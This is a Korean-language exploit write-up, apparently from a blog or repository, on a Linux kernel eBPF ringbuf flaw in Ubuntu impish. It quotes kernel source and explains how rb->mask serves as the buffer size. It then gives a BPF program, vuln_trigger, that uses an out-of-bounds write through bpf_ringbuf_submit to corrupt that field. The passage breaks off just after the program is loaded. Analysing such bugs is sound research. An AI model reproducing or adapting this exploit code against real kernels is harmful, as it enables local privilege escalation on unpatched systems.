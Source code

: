 https://git.launchpad.net/~ubuntu-kernel/ubuntu/+source/linux/+git/impish/tree/kernel/bpf/ringbuf.c?id=17727d232f2d8ee9e70022196936799e9bed0585#n129

```c
static struct bpf_ringbuf *bpf_ringbuf_alloc(size_t data_sz, int numa_node)
{
  struct bpf_ringbuf *rb;

  rb = bpf_ringbuf_area_alloc(data_sz, numa_node);
  if (!rb)
    return NULL;

  spin_lock_init(&rb->spinlock);
  init_waitqueue_head(&rb->waitq);
  init_irq_work(&rb->work, bpf_ringbuf_notify);

  rb->mask = data_sz - 1;
  rb->consumer_pos = 0;
  rb->producer_pos = 0;

  return rb;
}
```

`rb->mask` 에는 data_sz-1의 값이 쓰여집니다.

rb->mask는 `bpf_ringbuf_reserve`에서 아래와 같이 쓰여집니다.

https://git.launchpad.net/~ubuntu-kernel/ubuntu/+source/linux/+git/impish/tree/kernel/bpf/ringbuf.c?id=17727d232f2d8ee9e70022196936799e9bed0585#n305

```c
static void *__bpf_ringbuf_reserve(struct bpf_ringbuf *rb, u64 size)
{
     	unsigned long cons_pos, prod_pos, new_prod_pos, flags;
     	u32 len, pg_off;
     	struct bpf_ringbuf_hdr *hdr;
     
     	if (unlikely(size > RINGBUF_MAX_RECORD_SZ))
     		return NULL;
     
     	len = round_up(size + BPF_RINGBUF_HDR_SZ, 8);
       if (len > rb->mask + 1) // (1)
     		return NULL;
```

 `bpf_ringbuf_reserve` 에서는 size와 rb->mask를 비교하여 전체 할당크기보다 할당받으려는 size가 더 클 경우 NULL을 리턴합니다. (1) 즉,  `mask` 값이  ringbuf의 전체 사이즈의 역할로 사용됩니다. 우리는 oob로 이 rb->mask 값을 0x80000000과 xor하여 unsigned기준 매우 큰 값으로 바꿀 수 있습니다.

```c
int vuln_trigger(){
	struct bpf_insn prog[] = {
		BPF_LD_MAP_FD(BPF_REG_1, mapfd1),             // BPF_MAP_TYPE_RINGBUF mapfd
    BPF_MOV64_IMM(BPF_REG_2, 0),                  // r2 = 0 (size)
    BPF_MOV64_IMM(BPF_REG_3, 0), 									// r3 = 0 (flag)
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_reserve),
	  
		BPF_MOV64_REG(BPF_REG_1,BPF_REG_0),           // r1 = r0 (ringbuf_reserve return)
		BPF_ALU64_IMM(BPF_SUB, BPF_REG_1,0x2fd8-8),   // r1-0x2fd0 
		BPF_MOV64_IMM(BPF_REG_2, 1),                  // r2 = 1 (flag)
		BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_submit), // ringbuf_submit oob write
		BPF_MOV64_IMM(BPF_REG_0, 0),
		BPF_EXIT_INSN(),
	};
	int progfd = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, prog, sizeof(prog) / sizeof(struct bpf_insn), "GPL");
```